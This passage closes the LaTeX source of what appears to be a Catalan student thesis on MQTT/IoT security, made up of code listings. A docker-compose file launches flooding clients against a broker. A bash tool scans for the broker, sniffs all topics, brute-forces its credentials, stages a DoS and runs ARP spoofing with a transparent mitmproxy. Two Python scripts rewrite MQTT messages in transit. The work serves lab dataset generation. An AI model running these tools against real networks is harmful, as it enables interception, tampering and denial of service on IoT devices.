      - /home/joel/Documents/UNI/TFG/CLIENTS_ENV/clients/cl1:/home/
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 1 -n 50 -H 192.168.0.15 -s 100 -q 2 -c cl5"
    networks:
      IoTnet:
        ipv4_address: 192.168.0.105

  client6:
    image: client-mqtt-malaria
    container_name: client6
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/CLIENTS_ENV/clients/cl1:/home/
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 1 -n 50 -H 192.168.0.15 -s 100 -q 2 -c cl6"
    networks:
      IoTnet:
        ipv4_address: 192.168.0.106

  client7:
    image: client-mqtt-malaria
    container_name: client7
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/CLIENTS_ENV/clients/cl1:/home/
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 1 -n 50 -H 192.168.0.15 -s 100 -q 2 -c cl7"
    networks:
      IoTnet:
        ipv4_address: 192.168.0.107

  client8:
    image: client-mqtt-malaria
    container_name: client8
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/CLIENTS_ENV/clients/cl1:/home/
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 1 -n 50 -H 192.168.0.15 -s 100 -q 2 -c cl8"
    networks:
      IoTnet:
        ipv4_address: 192.168.0.108
    
  client9:
    image: client-mqtt-malaria
    container_name: client9
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/CLIENTS_ENV/clients/cl1:/home/
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 1 -n 50 -t -H 192.168.0.15 -s 100 -q 2 -c cl9"
    networks:
      IoTnet:
        ipv4_address: 192.168.0.109
      
  client10:
    image: kalilinux/kali-last-release
    container_name: client10
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/CLIENTS_ENV/clients/cl1:/home/
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 1 -n 50 -t -H 192.168.0.15 -s 100 -q 2 -c cl10"
    networks:
      IoTnet:
        ipv4_address: 192.168.0.110

networks:
  IoTnet:
    driver: macvlan
    driver_opts:
      parent: wlp42s0
    ipam:
      config:
        - subnet: 192.168.0.0/24
          gateway: 192.168.0.1
\end{lstlisting}


\begin{lstlisting}[language=bash, caption={Eina automatitzada per a la generació de datasets}, label=lst:tool]
#!/bin/bash
flag_dos=false
flag_mitm=false
flag_inspect=false
flag_sniffing=false
num_clients=2
compose_file="./CLIENTS_ENV/docker-compose-offline.yml"

#a modificar:
net=192.168.0.0
mask=/24
gw=192.168.0.1
interface=wlp42s0
ip_victima=10.4.39.25



#1- Captura de paquets amb tcpdump
#2- Masscan per trobar el broker
#3-Nmap -sn per trobar clients connectats
#4- Nmap nse-script per trobar info rellevant del broker
#5- Sniffing mosquitto_sub per trobar tòpics
#6- Despegament d'entorn simulat DDoS
#7- Arp spoof i MITM proxy
#8- Analisis de la captura pcap amb zeek per extreure conclusions

while getopts "mdis" opt; do
    case $opt in 
        m) flag_mitm=true ;;
        d) flag_dos=true ;;
        i) flag_inspect=true ;;
        s) flag_sniffing=true ;;
        \?) echo "opció invalida: -$OPTARG" >&2
            exit 1 ;;
    esac
done

cleanup() { #per apagar el docker amb Ctl+C
    echo -e "\n Tancant escenari: \n"
    sudo docker compose -f "$compose_file" down
    sudo docker stop escaner && sudo docker rm escaner
    sudo docker exec -it sniffer bash -c "kill -2 1"
    sudo docker stop sniffer && sudo docker rm sniffer
    sudo docker stop mitm && sudo docker rm mitm

    #8- Analisis de la captura pcap amb zeek per extreure conclusions
    echo -e "\n Analitzant paquets capturats \n"
    sudo docker run --rm --name analitzador --network host -v "$(pwd)/escaner":/home zeek/zeek bash -c "cd /home/zeek && zeek -r /home/zeek/capt.pcap"
    exit 0
}
trap cleanup SIGINT SIGTERM

mkdir -p ./escaner
sudo docker run -d --name escaner --network host -v "\$(pwd)/escaner":/home ubuntu:latest sleep infinity #contenidor ubuntu mb interface del host
sudo docker exec escaner bash -c "apt update && apt install -y nmap masscan prips mosquitto-clients"

#1- Captura de paquets amb tcpdump
echo -e "\n captura de paquets \n"
sudo docker run -d --name sniffer --network host -v "\$(pwd)/escaner/zeek":/home ubuntu:latest bash -c "apt update && apt install -y tcpdump && tcpdump -i \$interface -w /home/capt.pcap" #Monitoreig xarxa tcpdump

#2- Masscan per trobar el broker
echo -e "\n    - Escaneig de xarxa per MQTT en el rang \$net \$mask : \n"
sudo docker exec escaner bash -c "cd /home && masscan \$net\$mask -p1883 --rate 1000 -oG masscan.txt" #masscan per trobar el broker via tcp port 1883
ip_broker=\$(grep "Host: " ./escaner/masscan.txt | awk '{print \$4}')
echo -e "\n IP Broker: \$ip_broker \n"

#3- Nmap -sn per trobar clients connectats
echo -e "\n Trobant IPs clients MQTT \n" 
sudo docker exec escaner bash -c "cd /home && nmap -sn \$net\$mask -oG devices.txt"
grep "^Host:" "./escaner/devices.txt" | awk '{print \$2}' | cut -d'(' -f1 > "ips.txt"
#ip_victima=\$(head -n 1 ips.txt) #no es útil perque agafa disp no mqtt
#echo -e "\n IP Victima: \$ip_victima \n"


#4- Nmap nse-script per trobar info rellevant del broker
if [ "\$flag_inspect" = true ]; then 
    echo -e "\n    - Extreient informació del broker MQTT \$ip_broker...\n"
    sudo docker exec escaner bash -c "cd /home && nmap -Pn --script mqtt-subscribe -p 1883 -oG info_broker.txt \$ip_broker" #scipts info broker
    sudo docker exec escaner bash -c "python3 mqttsa.py -u "admin" -w ./psw.txt -t 5 -mp 255 -mq 1000 $ip_broker > info_broker2.txt "
fi

#5- Sniffing mosquitto_sub per trobar tòpics
if [ "\$flag_sniffing" = true ]; then
    echo -e "\n    - Subscribint-se temporalment al broker per capturar missatges: \n"
    sudo docker exec escaner bash -c "cd /home && timeout 5s mosquitto_sub -h \$ip_broker -t '#' -v > mqtt_sub.txt" #escolta pasiva tòpics durant 5s
    read topic msg < <(awk '{print \$1, \$2}' ./escaner/mqtt_sub.txt)  #no cal printejar realment
    echo -e "\n    - Topic: \$topic  Msg: \$msg \n"
fi

#6- Despegament d'entorn simulat DoS
if [ "\$flag_dos" = true ]; then
    sudo docker exec escaner bash -c "cd /home && source /home/ip_lliures.sh \$net\$mask \$num_clients" #IPs lliures a la xarxa  (genera les num_clients seguents a partir de la .100)
    source ./escaner/vars.env
    echo -e "\n IPs Clients simulates: \n   - CL1: \$ip_cl1 \n   - CL2: \$ip_cl2 \n"
    echo -e "\n    - Desplegant entorn simulat, executant analitzador i atac DDoS \n" 
    export ip_broker ip_cl1 ip_cl2 net gw interface mask #exportar variables per ser utilitzades en el docker compose (paràmetre -E)
    sudo -E docker compose -f "\$compose_file" up -d  #Desplegament d'escenari
fi

#7- Arp spoof i MITM proxy
if [ "\$flag_mitm" = true ]; then
    echo -e "\n executant arp spoofing \n"
    sudo docker run -d --name mitm  --privileged --network host -v "\$(pwd)/escaner":/home kalitfg sleep infinity
    sudo docker exec -it mitm bash -c "apt update && sysctl -w net.ipv4.ip_forward=1 && iptables -t nat -A PREROUTING -p tcp --dport 1883 -j REDIRECT && iptables -t nat -A POSTROUTING -p tcp --dport 1883 -j SNAT --to-source \$ip_victima"
    sudo docker exec -d mitm bash -c "arpspoof -i \$interface -t \$ip_victima -r \$ip_broker"
    sudo docker exec -it mitm bash -c "mitmproxy --mode transparent --listen-port 1883 --tcp-hosts '.*' -s /home/mqtt_mitm.py"
    #sudo docker exec -d mitm bash -c "bettercap -iface wlp42s0 -eval \"set arp.spoof.fullduplex true; set arp.spoof.targets \$ip_victima; arp.spoof on\""
    #sudo docker exec -it mitm bash -c "apt update && apt install -y bettercap && bettercap -iface wlp42s0 -eval \"set tcp.proxy.port 1883 ; set tcp.address '\$ip_broker' ; set tcp.port 1883 ; tcp.proxy on ; set arp.spoof.internal true ; set arp.spoof.targets '\$ip_victima', '\$ip_broker' ; arp.spoof on\""
fi

while true; do #per apagar el docker amb Ctl+C
    sleep 1
done     

\end{lstlisting}

\begin{lstlisting}[language=Python, caption={Script de modificació de missatges en mitmproxy}, label=ScriptMITM]
from mitmproxy import tcp

def tcp_message(flow: tcp.TCPFlow):
    data = flow.messages[-1].content
    try:
        if b"test" and not flow.messages[-1].from_client in data:
            print("[+] Mensaje original:", data)
            data_mod = data.replace(b'"test":1', b'"test":5')
            flow.messages[-1].content = data_mod
            print("[+] Mensaje modificado:", data_mod)
    except Exception as e:
        print("[!] Error procesando mensaje:", e)
\end{lstlisting}


\begin{lstlisting}[language=Python, caption={Script de modificació de missatges en mitmproxy en baix nivell}, label=ScriptMITM2]
from mitmproxy import tcp

def decode_remaining_length(data, offset):
    multiplier = 1
    value = 0
    bytes_used = 0
    while True:
        encoded_byte = data[offset]
        value += (encoded_byte & 127) * multiplier
        offset += 1
        bytes_used += 1
        if (encoded_byte & 128) == 0:
            break
        multiplier *= 128
    return value, bytes_used

def tcp_message(flow: tcp.TCPFlow):
    data = flow.messages[-1].content
    try:
        if data and data[0] & 0xF0 == 0x30:  # 0x30 = PUBLISH
            print("[+] Detected MQTT PUBLISH")

            # Decodificar
            remaining_length, len_len = decode_remaining_length(data, 1)

            fixed_header_len = 1 + len_len
            topic_len = int.from_bytes(data[fixed_header_len:fixed_header_len+2], "big")
            topic_start = fixed_header_len + 2
            topic_end = topic_start + topic_len
            payload_start = topic_end
            payload = data[payload_start:]

            print(f"[+] Topic: {data[topic_start:topic_end].decode()}")
            print(f"[+] Payload original: {payload}")

            # Modificar payload
            new_payload = b"MODIFICADO"

            new_remaining_length = 2 + topic_len + len(new_payload)
            new_remaining_bytes = bytearray()
            x = new_remaining_length
            while True:
                byte = x % 128
                x //= 128
                if x > 0:
                    byte |= 128
                new_remaining_bytes.append(byte)
                if x == 0:
                    break

            # Reconstruir el mensaje MQTT
            fixed_header = bytes([data[0]]) + bytes(new_remaining_bytes)
            topic_part = data[fixed_header_len:payload_start]
            new_msg = fixed_header + topic_part + new_payload

            flow.messages[-1].content = new_msg
            print(f"[+] Payload modificado: {new_payload}")

    except Exception as e:
        print(f"[!] Error modificando MQTT PUBLISH: {e}")
\end{lstlisting}



%%%% FINAL CLOSING BLANK PAGE %%%%
\clearpage
\thispagestyle{empty}

\end{document}


